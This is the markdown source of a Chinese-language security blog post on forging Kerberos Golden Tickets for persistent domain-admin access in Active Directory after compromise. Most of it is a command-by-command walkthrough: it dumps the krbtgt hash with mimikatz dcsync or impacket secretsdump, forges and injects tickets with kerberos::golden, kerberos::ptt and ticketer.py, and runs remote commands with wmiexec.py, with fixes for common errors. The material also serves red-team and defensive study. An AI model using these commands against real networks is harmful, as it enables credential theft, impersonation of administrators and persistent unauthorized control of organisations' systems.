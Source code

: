 ```yaml
---
layout: post
title: Pass the Ticket——Golden Ticket
date: 2018-12-26 23:30:00
tags: 域渗透
categories: hack 
author: PythonPig
---
```

* content
{:toc}


### \#0x00 写在前面 
域渗透过程简单来说：搞定域内某机器—获取域管登录凭证—登录域控导出所有用户hash—完毕  
导出域管hash或明文密码后并不一定万事大吉，如果所有域管全部更改密码后我们之前的导出的hash和密码就没用了，如果我们还有域内机器普通用户的权限的话，可以通过本文的方法找回域管权限。今天主要聊一下在域渗透后期如何利用Kerberos认证过程中的问题来维持域权限。  

{:refdef: style="text-align: center;"}
![golden ticket](https://github.com/PythonPig/PythonPig.github.io/blob/master/images/Pass%20the%20Ticket%E2%80%94%E2%80%94Golden%20Ticket/golden%20ticket.jpg?raw=true)
{: refdef}
图片来源于:https://image.slidesharecdn.com




### \#0x01 原理简介
在Kerberos认证过程中，用户的Ticket都是由Kerberos用户krbtgt的密码Hash生成的，如果获得了krbtgt的密码hash，则可以伪造任意用户的Ticket，当然我们关心的是域管的Ticket。  
详细的Kerberos认证过程和Pass the Ticket的过程参见【参考】部分。  


### \#0x02 Golden Ticket利用之mimikatz

##### 一、获取伪造Ticket所需数据
伪造Ticket所需的数据主要有  
1、krbtgt用户的nt hash  
2、域SID   
3、域内机器普通用户权限  

krbtgt的hash值可以在域控上通过mimikatz获取，在域控上执行如下命令  
```
mimikatz.exe "lsadump::dcsync /user:domain_name\krbtgt /domain:domain_name.com"
```
![get krbtgt hash](https://github.com/PythonPig/PythonPig.github.io/blob/master/images/Pass%20the%20Ticket%E2%80%94%E2%80%94Golden%20Ticket/get%20krbtgt%20hash_1.jpg?raw=true)  

从上图中可以得到nt hash：30eefxxxxxxxxxxxxxxxxxxxxxxxcbc4e和域SID：S-1-5-21-xxxxxxxxx-xxxxxxxxxxx1-xxxxxxxxxxxxx  

##### 二、伪造Golden Ticket并导入——Pass the Ticket
使用非域管账户登录域内已控的机器，在该机器上伪造域管Ticket。  
1、首先查看下系统是否已有tgt  
```
mimikatz # kerberos::tgt
```
![have no tgt](https://github.com/PythonPig/PythonPig.github.io/blob/master/images/Pass%20the%20Ticket%E2%80%94%E2%80%94Golden%20Ticket/have%20no%20tgt.jpeg?raw=true) 
  
2、验证在没有tgt的情况下本地用户是否具有域管权限  
访问域内其他机器需要认证的共享文件  
![have no permission](https://github.com/PythonPig/PythonPig.github.io/blob/master/images/Pass%20the%20Ticket%E2%80%94%E2%80%94Golden%20Ticket/have%20no%20permission_1.jpg?raw=true)  
没有访问的权限  

3、生成tgt  
这里以域domain_name 和拟伪造的域管AD_admin_user为例进行说明  
```
mimikatz # kerberos::golden /user:AD_admin_user /domain:domain_name /sid:S-1-5-21-168xxxxx-3676xxxxxx1-34xxxx0176 /krbtgt:30eef769c3xxxxxxxxxxxcbc4e /ticket:AD_admin_user.kiribi
```
命令执行完成后，将在本目录下生成文件AD_admin_user.kiribi  

4、导入tgt 
``` 
mimikatz # kerberos::ptt AD_admin_user.kiribi
```

5、查看导入是否成功  
```
mimikatz # kerberos::tgt
```
![import success](https://github.com/PythonPig/PythonPig.github.io/blob/master/images/Pass%20the%20Ticket%E2%80%94%E2%80%94Golden%20Ticket/import%20success_1.jpg?raw=true) 
导入成功  

6、尝试访问域内其他机器上的文件  
```
dir \\vas-xxxxxx\c$
```
![success](https://github.com/PythonPig/PythonPig.github.io/blob/master/images/Pass%20the%20Ticket%E2%80%94%E2%80%94Golden%20Ticket/success_1.jpg?raw=true) 
Pass the Ticket成功，可以以非域管账户执行域管命令，执行其他域管命令请参照【参考】  

### \#0x03 Golden Ticket利用之ticketer（跨平台利用）
在横向移动的过程中，使用mimikatz利用Golden Ticket时有以下限制：  
1、需要一台windows机器的权限且安装mimikatz  
2、使用mimikatz需要免杀  
在已控的可与域内主机（如域控）通信的linux机器上使用impacket的ticketer等工具可解决上面的问题。  

##### 一、需要的条件
* krbtgt account NT hash
* domain SID
* domain FQDN
* user to impersonate（一般选择域管）

用到的工具主要为impacket的ticketer.py  

##### 一、获取伪造Ticket所需数据
方法一（获取krbtgt hash）：  
```
secretsdump.py domainname/domain_admin_username@dc_ip -hashes domain_admin_username_lmhash:domain_admin_username_nthash -just-dc
```
方法二（获取krbtgt hash）：  
参见 [导出域内所有用户hash](https://pythonpig.github.io/2018/12/09/导出域内所有用户hash/)

方法三：  
```
mimikatz.exe "lsadump::dcsync /user:domain_name\krbtgt /domain:domain_name.com"
```

##### 二、伪造Golden Ticket
利用ticketer.py生成伪造的ticket  
```
ticketer.py -nthash krbtgt_account_NT_hash -domain-sid S-1-5-21-168xxxxxx-367xxxxxxx-3458xxxxx -domain domain_name user_to_impersonate
``` 
如  
```
ticketer.py -nthash 11111111111111111111111111111 -domain-sid S-1-5-21-11111111-222222222-33333333 -domain testdomainname Administrator
```
执行后生成user_to_impersonate.ccache
##### 三、导入并利用
```
1、export KRB5CCNAME=/absolute_path/user_to_impersonate.ccache
2、wmiexec.py -no-pass -k domain_name/user_to_impersonate@dc_hostname_or_dc_ip -dc-ip dc_ip
```
注意：  
1、这里的domain_name一定与生成ticket是用到的domain_name完全相同，否则会出现错误“[-] Kerberos SessionError: KDC_ERR_PREAUTH_FAILED(Pre-authentication information was invalid)”  
2、这里的dc_hostname_or_dc_ip可以是目标主机的hostname也可以是目标主机的ip地址，使用ip地址是可能会出现错误“[-] Kerberos SessionError: KDC_ERR_S_PRINCIPAL_UNKNOWN(Server not found in Kerberos database)”，此时应尝试使用目标主机的hostname，若发起攻击的linux无法解析hostname为ip地址时，请在/etc/hosts文件中添加ip地址和hostname的对应关系。  

impacket中的不少工具都支持上述方式利用Golden Ticket。  
注：因为利用Golden Ticket的这台linux机器并不是域内机器，与域控可能存在时间不同步的问题，一般当时间差大于5分钟时会发生"Kerberos SessionError: KRB_AP_ERR_SKEW(Clock skew too great)"错误，解决办法如下：  
1、ntpdate dc_ip （与域控进行时间同步，域控一般作为ntp server）  
或  
2、获取域内主机或域控的时间,调整linux机器的时间与域控时间差在5分钟以内：date -s 20:08:00    

### \#0x04 参考
* [域渗透的金之钥匙](http://drops.wooyun.org/tips/9591)
* [域渗透——Pass The Ticket](http://drops.wooyun.org/tips/12159)
* [谈谈基于Kerberos的Windows Network Authentication[上篇]](http://www.cnblogs.com/artech/archive/2007/07/05/807492.html)
* [[原创]谈谈基于Kerberos的Windows Network Authentication - Part II](http://www.cnblogs.com/artech/archive/2007/07/07/809545.html)
* [敞开的地狱之门：Kerberos协议的滥用](https://www.freebuf.com/articles/system/45631.html)
* [How To Pass the Ticket Through SSH Tunnels](https://bluescreenofjeff.com/2017-05-23-how-to-pass-the-ticket-through-ssh-tunnels/)


